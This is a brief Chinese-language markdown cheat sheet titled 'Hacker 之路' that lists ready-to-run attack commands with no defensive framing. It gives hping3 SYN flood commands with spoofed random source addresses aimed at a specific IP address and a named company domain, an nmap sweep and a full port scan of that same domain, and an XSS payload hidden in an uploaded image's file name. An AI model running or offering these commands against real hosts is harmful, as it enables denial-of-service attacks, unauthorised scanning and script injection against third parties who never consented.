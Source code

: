 ﻿  
## Hacker 之路  
  
> hping3洪水攻击  
  
```shell  
sudo hping3 --flood -S --rand-source -p 80 121.42.155.69  
sudo hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source www.integle.com  
```  
  
> 扫描指定网段存活的主机  
  
```shell  
sudo nmap -sP -Pl -PT 192.168.1.0/24  
```  
  
> 端口服务扫描  
  
```shell  
sudo nmap www.integle.com -p0-65535  
```  
  
> XSS图片上传  

```html  
"><img src=x onerror=alert(location.href)>.jpg  
```  

